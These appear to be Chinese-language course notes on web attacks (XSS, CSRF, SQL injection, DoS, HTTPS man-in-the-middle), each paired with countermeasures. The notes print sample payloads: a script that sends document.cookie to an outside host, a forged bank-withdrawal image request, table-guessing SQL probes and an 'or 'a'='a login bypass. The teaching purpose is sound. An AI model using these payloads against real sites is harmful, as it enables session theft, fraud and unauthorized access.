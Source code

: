 # SYS201 - Computer Networks - 网络安全

返回[Bulletin](./bulletin.md)

返回[SYS301 - Distributed Systems](./SYS301.md)

[TOC]

## 跨站脚本攻击<img src="./icons/qinlin.gif" />

XSS 攻击（即跨域脚本攻击/跨站脚本攻击）原理是攻击者往 Web 页面里插入恶意的脚本代码（css 代码、Javascript 代码等）。当用户浏览该页面时，嵌入其中的脚本代码会被执行，从而达到恶意攻击用户的目的：如盗取用户 cookie、破坏页面结构、重定向到其他网站等。

例如有一个论坛网站，攻击者可以在上面发布以下内容：

```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之后该内容可能会被渲染成以下形式：

```html
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

### 解决方案

- 预防 XSS 的核心是必须对输入的数据做过滤处理。

- 设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息。

## 跨站请求伪造

跨站请求伪造(CSRF, Cross-Site Request Forgery)可以理解为攻击者盗用了你的身份，以你的名义发送恶意请求，比如：以你名义发送邮件、发消息、购买商品，虚拟货币转账等。

假如一家银行用以执行转账操作的 URL 地址如下：

http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName

那么，一个恶意攻击者可以在另一个网站上放置如下代码：

```html
<img src="http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman">
```

如果有账户名为 Alice 的用户访问了恶意站点，而她之前刚访问过银行不久，登录信息尚未过期，那么她就会损失 1000 美元。

### 解决方案

- 验证HTTP Referer首部字段

- 添加并验证token

- 敏感操作添加验证码

- 使用CSRF漏洞进行检测的工具，如 CSRFTester、CSRF Request Builder...

- 添加自定义http请求头

- 使用post请求

## SQL注入攻击<img src="./icons/baidu.gif" /><img src="./icons/citic.gif" />

所谓SQL注入，就是通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。

### 骗取数据库信息

先猜表名

```sql
and (select count(*) from 表名) <> 0
```

猜列名

```sql
and (select count（列名) from 表名) <> 0
```

或者也可以这样

```sql
and exists (select * from 表名)
and exists (select 列名 from 表名)
```

返回正确的，那么写的表名或列名就是正确

这里要注意的是，exists这个不能应用于猜内容上，例如and exists (select len(user) from admin)>3 这样是不行的

### 后台身份验证绕过漏洞

例如管理员的账号密码都是admin，那么再比如后台的数据库查询语句是

```sql
user=request("user")
passwd=request("passwd")
sql='select admin from adminbate where user='&'''&user&'''&' and passwd='&'''&passwd&'''
```

那么我使用'or 'a'='a来做用户名密码的话，那么查询就变成了

```sql
select admin from adminbate where user=''or 'a'='a' and passwd=''or 'a'='a'
```

这样的话，根据运算规则，这里一共有4个查询语句，那么查询结果就是 假or真and假or真，先算and 再算or，最终结果为真，这样就可以进到后台了。

### 解决方案

- 要防御SQL注入，用户的输入就绝对不能直接被嵌入到SQL语句中，而需要进行过滤，如使用正则表达式过滤掉字符中的特殊字符，或者使用参数化的语句，如预处理PreparedStatement.

- 检查用户输入的合法性，确信输入的内容只包含合法的数据。使用一种标准的输入确认机制来验证所有的输入数据的长度、类型、语句、企业规则等。

- 设置严格的数据库权限管理
  - 仅给予Web应用访问数据库的最小权限；
  - 避免Drop table等权限。
- 封装数据库错误
  - 禁止直接将后端数据库异常信息暴露给用户；
  - 对后端异常信息进行必要的封装，避免用户直接看到异常信息。

- 禁止明文存储机密信息。将用户登录名称、密码等数据加密保存。

## 拒绝服务攻击

**拒绝服务攻击**（denial-of-service attack，DoS），亦称洪水攻击，其目的在于使目标电脑的网络或系统资源耗尽，使服务暂时中断或停止，导致其正常用户无法访问。

**分布式拒绝服务攻击**（distributed denial-of-service attack，DDoS），指攻击者使用两个或以上被攻陷的电脑作为“僵尸”向特定的目标发动“拒绝服务”式攻击。

## HTTPS中间人攻击<img src="./icons/mashibing.gif" />

黑客通过钓鱼或者物理手段在用户的计算机上安装非法的根证书，导致用户的请求会经过黑客到达目标服务器，服务器返回真实的证书后，经过黑客，返回伪造的证书，而根证书可以通过校验。随后黑客可以在服务器不知情的情况下拦截数据传输、篡改请求。

其实调试HTTPS的工具，实现原理都是HTTPS中间人攻击。

